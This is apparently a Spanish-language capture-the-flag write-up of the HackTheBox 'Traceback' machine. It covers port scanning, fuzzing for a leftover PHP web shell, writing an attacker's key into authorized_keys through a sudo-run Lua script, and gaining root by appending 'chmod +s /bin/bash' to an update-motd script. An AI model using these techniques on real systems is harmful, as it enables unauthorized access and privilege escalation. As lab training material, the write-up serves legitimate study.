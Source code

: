 ```yaml
---
title: HackTheBox - Traceback
author: cotes
date: 2023-09-20 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'Information Leakage', 'Update-Motd Abusing']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Traceback/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Traceback Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **Information Leakage, Update-Motd Abusing**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Traceback/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Traceback/02-versions.png)

c. Al inspeccionar el código fuente de la página web, veremos un mensaje

![](/assets/images/HTB/Easy/Traceback/03-web.png)

* Aquí nos da la pista de [Some of the best web shells](https://github.com/TheBinitGhimire/Web-Shells), este es un repositorio que cuenta con múltiples web shell en php, por lo que, fuzzearemos por los nombres de estas en el servicio web

    ```bash
    ❯ wfuzz -c -t 100 --hc=404 -w ./shells.txt 'http://10.10.10.181/FUZZ/'

    <SNIP>
    000000015:   200        58 L     100 W      1261 Ch     "smevk.php" 
    ```

d. Con esta web shell descubierta nos entablamos una reverse shell (Las credenciales válidas para la webshell son `admin:admin`)

![](/assets/images/HTB/Easy/Traceback/04-reverse.png)

### Escalada de Privilegios 💹

a. Para maniobrar cómodamente generemos un par de claves id_rsa

```bash
webadmin@traceback:/home/webadmin/.ssh$ ssh-keygen
webadmin@traceback:/home/webadmin/.ssh$ cat id_rsa.pub > authorized_keys
```

* Ahora nos copiamos la clave privada y nos podemos conectar por ssh

b. Leemos la nota de nuestro directorio y también nuestro fichero **.bash_history**

```bash
webadmin@traceback:~$ cat note.txt 
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.

webadmin@traceback:~$ cat .bash_history 
sudo -u sysadmin /home/sysadmin/luvit privesc.lua
```

> Podemos ejecutar cualquier script de lua como el usuario **sysadmin**
{: .prompt-info }

c. Ahora, generamos un par de claves **id_rsa** en nuestra máquina de atacante y copiaremos el fichero **id_rsa.pub** para copiarlo en `/home/sysadmin/.ssh/authorized_keys` y podernos conectar por SSH como el usuario sysadmin

```bash
❯ ssh-keygen
❯ cat id_rsa.pub | xclip -sel clip
```

* Ahora crearemos el script de lua que nos permitirá realizar todo lo descrito anteriormente

    ```lua
    local comando = "echo -n '[Clave id_rsa.pub]' > /home/sysadmin/.ssh/authorized_keys"

    local handle = io.popen(comando)
    local resultado = handle:read("*a") 

    handle:close()

    print("Salida del comando:")
    print(resultado)
    ```

* Finalmente ejecutamos el script como sysadmin y ya nos podremos conectar con nuestra clave privada al servicio SSH

    ```bash
    webadmin@traceback:/tmp$ sudo -u sysadmin /home/sysadmin/luvit privesc.lua
    ---------------------------------------------------------------------------
    ❯ ssh sysadmin@10.10.10.181 -i id_rsa
    $ bash
    sysadmin@traceback:~$ 
    ```

d. Buscamos ficheros en los que tengamos capacidad de escritura

```bash
sysadmin@traceback:~$ find / -writable 2>/dev/null | grep -vE "^/proc|^/run|^/lib|^/dev|^/sys"
/etc/update-motd.d/50-motd-news
/etc/update-motd.d/10-help-text
/etc/update-motd.d/91-release-upgrade
/etc/update-motd.d/00-header
/etc/update-motd.d/80-esm
<SNIP>
```

* Al buscar formas de escalar privilegios encontramos este [post](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/update-motd-privilege-escalation/)

e. Inyectamos un comando para darle permiso SUID a la bash. Luego nos desconectamos y conectamos al servicio SSH para que el comando se ejecute

```bash
sysadmin@traceback:~$ echo "chmod +s /bin/bash" >> 00-header
sysadmin@traceback:~$ exit
-------------------------------------------------------------
❯ ssh sysadmin@10.10.10.181 -i id_rsa
-------------------------------------------------------------
$ bash -p
bash-4.4# whoami
root
```
